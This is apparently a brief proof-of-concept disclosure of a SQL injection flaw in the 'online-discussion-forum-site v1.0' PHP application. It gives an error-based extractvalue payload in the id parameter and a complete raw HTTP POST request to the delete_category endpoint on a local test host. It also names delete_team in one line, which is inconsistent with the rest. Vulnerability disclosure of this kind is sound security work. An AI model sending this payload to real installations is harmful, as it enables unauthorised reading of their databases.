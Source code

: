 # online-discussion-forum-site v1.0 has SQL injection

vendors: https://www.sourcecodester.com/php/15337/online-discussion-forum-site-phpoop-free-source-code.html

Date: 2022-05-07

Vulnerability File: /odfs/classes/Master.php?f=delete_team

Vulnerability location:/odfs/classes/Master.php?f=delete_category, id

[+] Payload: 2'and/**/extractvalue(1,concat(char(126),database()))and'

Tested on Windows 10, XAMPP

```
POST http://192.168.2.102/odfs/classes/Master.php?f=delete_category HTTP/1.1
Host: 192.168.2.102
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en,zh-CN;q=0.8,zh;q=0.7,zh-TW;q=0.5,zh-HK;q=0.3,en-US;q=0.2
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 60
Origin: http://192.168.2.102
Connection: close
Referer: http://192.168.2.102/odfs/admin/?page=categories
Cookie: PHPSESSID=vpohrtulukshjgjlje1jbeavrj

id=2'and/**/extractvalue(1,concat(char(126),database()))and'
```

![]([https://github.com/mikeccltt/badminton-center-management-system/blob/main/sql.gif?raw=true](https://github.com/mikeccltt/0525/blob/main/online-discussion-forum-site/sql.gif?raw=true))

